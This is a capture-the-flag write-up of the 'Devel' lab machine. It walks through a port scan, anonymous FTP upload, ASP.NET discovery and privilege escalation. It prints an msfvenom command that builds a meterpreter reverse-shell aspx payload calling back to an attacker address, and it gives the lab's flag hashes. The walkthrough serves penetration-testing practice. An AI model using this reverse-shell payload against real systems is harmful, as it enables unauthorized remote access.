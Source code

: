 ## Devel
*Easy*

Used rustscan and found ports 21 and port 80 open.

![](images/devel-scan.png)

Anonymous login through FTP is possible.

![](images/devel-ftp.png)

Brought all the necessary files to my machine.
Notice that the files we found in port scanning were same as those we found in FTP. So it might be a webroot on a windows machine.

Emeuneration using gobuster.

![](images/devel-gobust1.png)

![](images/devel-gobust2.png)

Eneumeration using gobuster was not of much use.

Opened the webpage.

![](images/devel-web.png)

I then opened /iisstart.aspx and /aliproject.aspx and through inspect element found that the server is running ASP.NET

![](images/devel-headers.png)

So might have to upload a .aspx webshell via FTP and then open it in the browser to get the reverse shell.

So to make the payload I used msfvenom.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.33 LPORT=4444 -f aspx > devel.aspx
```
![](images/devel-devel.png)

Then I set up a meterpreter. I set up a local listener to this handler.

![](images/devel-meterpreter.png)

But I am not the administrator. So I need to become the admin. So looking for some system information

![](images/devel-sysinfo.png)

https://null-byte.wonderhowto.com/how-to/bypass-uac-escalate-privileges-windows-using-metasploit-0196076/ was helpful to understand privialge escalation.

https://titanwolf.org/Network/Articles/Article?AID=e8a8d6f5-38ff-419f-ac2b-4b43f646f43a#gsc.tab=0 also helped.

Tried privilage escalation but failed.

![](images/devel-privesc.png)

The above articles seemed to help. But no session was created. 

![](images/devel-failed.png)

So after some more searching, I tried another exploit and this time it worked.

![](images/devel-second.png)

![](images/devel-final.png)

So finally, became the admin.

![](images/devel-user.png)

![](images/devel-root.png)

User flag **9ecdd6a3aedf24b41562fea70f4cb3e8**   
Root flag **e621a0b5041708797c4fc4728bc72b4b**

